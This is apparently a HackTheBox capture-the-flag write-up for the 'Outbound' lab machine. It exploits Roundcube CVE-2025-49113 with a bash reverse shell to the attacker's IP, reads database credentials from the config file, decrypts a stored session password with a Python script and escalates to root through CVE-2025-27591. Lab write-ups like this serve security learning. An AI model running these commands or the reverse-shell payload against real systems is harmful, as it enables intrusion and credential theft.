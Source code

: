 ```yaml
---

## title: "HTB Outbound - pwn date: 2025-07-18 categories: ["HackTheBox", "Writeup"] tags: ["Roundcube", "CVE", "RCE", "Privesc", "First-Blood"]

# HTB Outbound Writeup 

**Machine:** Outbound  
**IP:** 10.10.11.77  
**My Rating:** Pretty fun actually  
**Creds to start:** tyler / LhKL1o9Nm3X2 (they gave us these)


---
```

solved at 2025-07-15
## First Things First - Recon Time

started with the usual nmap scan 

```bash
nmap -sV -sC -T4 -Pn 10.10.11.77 -oN nmap_scan
```

got back:

```
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 
80/tcp open  http    nginx 1.24.0
|_http-title: Did not follow redirect to http://mail.outbound.htb/
```

okay so we got ssh and some web service that redirects to `mail.outbound.htb`. quick hosts file update:

```bash
echo "10.10.11.77 mail.outbound.htb" | sudo tee -a /etc/hosts
```

## Nuclei 🔥

before even opening burp i decided to throw nuclei at it :

```bash
nuclei -u http://mail.outbound.htb/
```

AND BOOM:

```
[CVE-2025-49113:version_check] [http] [critical] http://mail.outbound.htb/ ["Roundcube Version: 1.6.10"]
```


I looked it up and CVE-2025-49113 is some post-auth RCE in Roundcube via PHP object deserialization. so we can exploit it as long as we can login 

and guess what? we already have creds! tyler:LhKL1o9Nm3X2

## Getting That Shell 💀

i searched " CVE-2025-49113 PoC " and found the exploit on github (thanks hakaioffsec):

```bash
git clone https://github.com/hakaioffsec/CVE-2025-49113-exploit
```

set up my listener on another terminal:

```bash
nc -lvnp 4444
```

fired the exploit:

```bash
php CVE-2025-49113.php http://mail.outbound.htb/ tyler LhKL1o9Nm3X2 "bash -c 'bash -i >& /dev/tcp/MY-HTB-IP/4444 0>&1'"
```

```
[+] Target is vulnerable!
[+] Login successful!
[*] Exploiting...
```

and just like that... **WE'RE IN!** 🎯

```bash
www-data@mail:/$ whoami
www-data
```

## From www-data to Tyler

switched to tyler since we had the password:

```bash
su tyler
# Password: LhKL1o9Nm3X2
```

## Database Hunting 🕵️

started poking around the roundcube config files:

```bash
cat /var/www/html/roundcube/config/config.inc.php
```

found some juicy stuff:

```php
$config['db_dsnw'] = 'mysql://roundcube:RCDBPass2025@localhost/roundcube';
$config['des_key'] = 'rcmail-!24ByteDESkey*Str';
```

database creds! let's see what's in there:

```bash
mysql -u roundcube -pRCDBPass2025 -e 'USE roundcube; SELECT * FROM users;'
```

found 3 users: jacob, mel, and tyler. but the interesting part was the session table:

```bash
mysql -u roundcube -pRCDBPass2025 -h localhost roundcube -e 'use roundcube;select * from session;' -E
```

there's this massive base64 blob in the vars column. decoded it and found jacob's encrypted password: `L7Rv00A8TuwJAr67kITxxcSgnIk25Am/`

## Time to Decrypt 🔐

remembered the DES key from earlier. we can write a python script and use it to decrypt the password :

```python
from base64 import b64decode
from Crypto.Cipher import DES3

enc_b64 = "L7Rv00A8TuwJAr67kITxxcSgnIk25Am/"
des_key = b'rcmail-!24ByteDESkey*Str'

data = b64decode(enc_b64)
iv = data[:8]
ciphertext = data[8:]

cipher = DES3.new(des_key, DES3.MODE_CBC, iv)
plaintext = cipher.decrypt(ciphertext)

pad_len = plaintext[-1]
if isinstance(pad_len, str):
    pad_len = ord(pad_len)
plaintext = plaintext[:-pad_len]

print("Decrypted:", plaintext.decode())
```

ran it and got: 
```bash
python decrypt.py
Decrypted: 595mO8DmwGeD
```

```

switched to jacob:

```bash
su jacob
# Password: 595mO8DmwGeD
```

## Reading Jacob's Mail 📧

checked out jacob's mailbox:

```bash
cat ~/mail/INBOX/jacob
```

found two emails. first one from tyler:

```
Subject: Important Update
Password: gY4Wr3a1evp4
```

second one from mel talking about some resource monitoring tool called "Below"

## SSH Time

used the new password to ssh:

```bash
ssh jacob@10.10.11.77
# Password: gY4Wr3a1evp4
```

grabbed the user flag:

```bash
cat ~/user.txt
```

**USER FLAG ACQUIRED!** 🚩

## Privesc - The Fun Part

found an exploit.py file in jacob's home directory. looked at it and  found out its an exploit for CVE-2025-27591 targeting the Below monitoring tool.

checked the glibc version:

```bash
ldd --version
# 2.39 - vulnerable!
```

ran the exploit:

```bash
python3 exploit.py
```

```
[*] Checking for CVE-2025-27591 vulnerability...
[+] /var/log/below is world-writable.
[+] Target is vulnerable.
[*] Starting exploitation...
[+] Payload appended successfully.
root@outbound:/home/jacob#
```

**NOW WE'RE ROOT!** 🔥🔥🔥

```bash
cat /root/root.txt
```

**Machine ROOTED!** 👑

---


honestly this was way easier than i expected.

might do more writeups if people actually read this. next time gonna try a harder machine.

peace out ✌️

_ps: if you're reading this and i haven't posted anything in months, remind me cuz i probably got distracted by something else lmao_

BTW THIS WILL BE POSTED AFTER THE MACHINE IS RETIRED
